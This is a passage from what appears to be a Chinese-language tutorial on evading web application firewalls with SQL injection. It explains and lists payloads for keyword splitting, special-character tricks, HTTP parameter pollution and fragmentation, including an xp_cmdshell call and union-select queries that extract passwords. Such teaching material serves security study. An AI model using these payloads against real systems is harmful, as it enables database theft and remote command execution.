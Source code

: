 字符串截取函数

>	Substring(@@version,1,1)  
>	Left(@@version,1)  
>	Right(@@version,1)  

(2)字符串转换函数

>	Ascii('a') 这里的函数可以在括号之间添加空格的，一些waf过滤不严会导致bypass  
>	Char('97')  
>	exec  

Mysql BIGINT数据类型构造溢出型报错注入： BIGINT Overflow Error Based SQL Injection   
[http://www.thinkings.org/2015/08/10/bigint-overflow-error-sqli.html](http://www.thinkings.org/2015/08/10/bigint-overflow-error-sqli.html)  
**f. 特殊符号**  
这里我把非字母数字的字符都规在了特殊符号一类，特殊符号有特殊的含义和用法，涉及信息量比前面提到的几种都要多  
先看下乌云drops上“waf的绕过技巧”一文使用的几个例子：  
1.使用反引号`，例如select `version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用

2.神奇的"-+."，select+id-1+1.from users; “+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤  
3.@符号，select@^1.from users; @用于变量定义如@var_name，一个@表示用户定义，@@表示系统变量    
4.Mysql function() as xxx  也可不用as和空格　　 select-count(id)test from users;  //绕过空格限制  
可见，使用这些字符的确是能做很多事，也证实了那句老话，只有想不到，没有做不到  
本人搜罗了部分可能发挥大作用的字符(未包括'、*、/等在内，考虑到前面已经出现较多次了)：`、~、!、@、%、()、[]、.、-、+ 、|、%00  
举例：  
关键字拆分：
>‘se’+’lec’+’t’  
>%S%E%L%E%C%T 1  
>1.aspx?id=1;EXEC(‘ma’+'ster..x’+'p_cm’+'dsh’+'ell ”net user”’)  
>!和()：' or --+2=- -!!!'2  
>id=1+(UnI)(oN)+(SeL)(EcT)　//另 Access中,”[]”用于表和列,”()”用于数值也可以做分隔

本节最后在给出一些和这些字符多少有点关系的操作符供参考：
	
	>>, <<, >=, <=, <>,<=>,XOR, DIV, 
	SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN
使用这些"特殊符号"实现绕过是一件很细微的事情，一方面各家数据库对有效符号的处理是不一样的，另一方面你得充分了解这些符号的特性和使用方法才能作为绕过手段  
**g. HTTP参数控制**  
这里HTTP参数控制除了对查询语句的参数进行篡改，还包括HTTP方法、HTTP头的控制  
1.HPP(HTTP Parameter Polution)
举例：
>/?id=1;select+1,2,3+from+users+where+id=1—  
>/?id=1;select+1&id=2,3+from+users+where+id=1—  
>/?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users

2.HPF(HTTP Parameter Fragment)  
这种方法是HTTP分割注入，同CRLF有相似之处(使用控制字符%0a、%0d等执行换行)  
举例：  

	/?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--
	select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users—

看罢上面两个示例，发现和HPP最后一个示例很像，不同之处在于参数不一样，这里是在不同的参数之间进行分割，到了数据库执行查询时再合并语句。  
3.HPC(HTTP Parameter Contamination)  
这一概念见于exploit-db上的paper：Beyond SQLi: Obfuscate and Bypass，Contamination同样意为污染  
RFC2396定义了如下一些字符：  
Unreserved: a-z, A-Z, 0-9 and _ . ! ~ * ' ()  
Reserved : ; / ? : @ & = + $ ,  
Unwise : { } | \ ^ [ ] `  
